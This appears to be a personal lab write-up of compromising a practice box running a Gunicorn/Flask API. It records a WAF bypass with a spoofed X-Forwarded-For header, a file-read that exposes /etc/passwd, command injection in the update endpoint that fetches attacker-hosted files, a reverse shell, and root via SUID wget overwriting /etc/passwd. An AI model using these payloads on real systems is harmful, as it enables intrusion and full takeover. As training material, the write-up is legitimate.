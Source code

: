 ### Enumeration
```
IP=192.168.170.134
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,13337 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
- 13337
	- Gunicorn 20.0.4 API
	- nc -nv $IP 13337
		- ?
### Foothold
- 13337
	- searchsploit gunicorn
		- No results
	- Default page
		- ![[Pasted image 20240814155846.png]]
		- /logs
			- WAF: Access Denied for this Host
			- WAF Bypass
				- Port swigger talked about  X-Forwarded-For: 127.0.0.1
				- ![[Pasted image 20240814161042.png]]
				- Added this tor request
				- ![[Pasted image 20240814161028.png]]
				- Talks about no file and gives description: file=/path/to/log/file
				- ![[Pasted image 20240814161136.png]]
				- Dumps etc/passwd
					- root
					- clumsyadmin
				- Check source code
					- File=main.py
						- flask
						- Update portion that reaches out to http server
							- `os.system("curl {} -o /home/clumsyadmin/app".format(data['url']))
						- Might be able to breakout
							- `curl -X POST http://192.168.170.134:13337/update -H "Content-Type: application/json" -d '{"user":"clumsyadmin","url":"http://192.168.45.163/shell-x64.elf ; curl http://192.168.45.163/test"}'
							- The ; splits into another command
								- ![[Pasted image 20240814162257.png]]
								- Maybe put rev shell code?
									- Put busybox rev shell. Connects then dies
									- Used normal nc shell and it stays connected
		- /version
			- 1.0.0b8f887f33975ead915f336f57f0657180
		- /update
			- `curl -X POST http://192.168.170.134:13337/update -H "Content-Type: application/json" -d '{"user":"www-data"}'
				- invalid username
			- curl -X POST http://192.168.170.134:13337/update -H "Content-Type: application/json" -d '{"user":"clumsyadmin","url":"http://192.168.45.163/test.txt"}'
				- Grabs the file from my python http server
### PE
#### Linux
- clumsyadmin
	- id
		- uid=1000(clumsyadmin) gid=1000(clumsyadmin) groups=1000(clumsyadmin)
	- sudo -l
		- needs password
	- uname -a
		- `Linux xposedapi 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- wget
				- https://gtfobins.github.io/gtfobins/wget/
				- We are rooted
				- ![[Pasted image 20240814164255.png]]
				- Could also write to /etc/passwd
					- `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash
						- pass123
						- Write to a file on kali and host it with python http server
					- `wget -O /etc/passwd [http://192.168.49.112/passwd](http://192.168.49.112/passwd)
					- Then su user3
						- pass123
### Credentials
### Lessons Learned
- Make sure browser burp is on or off
- Try different payloads. Probably 5 then move on
